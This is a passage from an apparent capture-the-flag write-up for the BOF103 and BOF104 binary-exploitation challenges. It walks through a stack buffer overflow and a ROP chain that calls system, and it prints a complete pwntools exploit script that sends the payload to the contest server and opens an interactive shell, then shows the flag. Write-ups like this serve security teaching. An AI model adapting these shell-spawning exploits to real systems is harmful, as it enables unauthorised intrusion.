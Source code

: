 ```c
	printf("Bye, %s.\n", name);
}

int main() {
	system("echo 'Welcome to BOF 103!'");
	bofme();
	return 0;
}
```

Again system is present on the binary, there is a global variable 'key' that address can be easily identified  and can be used in 'useme()', the bofme() function has again a no-brainer buffer overflow...
Payload Strat:
offset: 24 (could check easily)
pop rdi; ret and "/bin/sh\x00" to set the first argument of useme
pop rsi; ret and p64(1) to set the second argument of useme
then again pop rdi; ret to set the first argument of system as key
p64(key) (can be found in gdb or with nm)
and last a call to system

Final Script:
```python
from pwn import *

elf = context.binary = ELF("./bof103")
#io = elf.process()
io = remote("bof103.sstf.site", 1337)

pay = b"A"*24
pay += p64(0x0000000000400723) # pop rdi; ret
pay += b"/bin/sh\x00"
pay += p64(0x00000000004006b8) # pop rsi; ret
pay += p64(1)
pay += p64(elf.sym['useme'])
pay += p64(0x0000000000400723) # pop rdi; ret
pay += p64(0x601058) # Key Address
pay += p64(elf.plt['system']) # System Function

io.sendline(pay)
io.interactive()
```

Flag = 

    SCTF{R0P_is_v3ry_p0w3rfuL_4nd_u5EfUl}


Now BOF104, no source code this time so I loaded it in dogbolt and I get:

    int64_t bofme()
    {
        void var_28; // char var_28[0x20];
        read(0, &var_28, 0x200);
        return puts(&var_28);
    }
    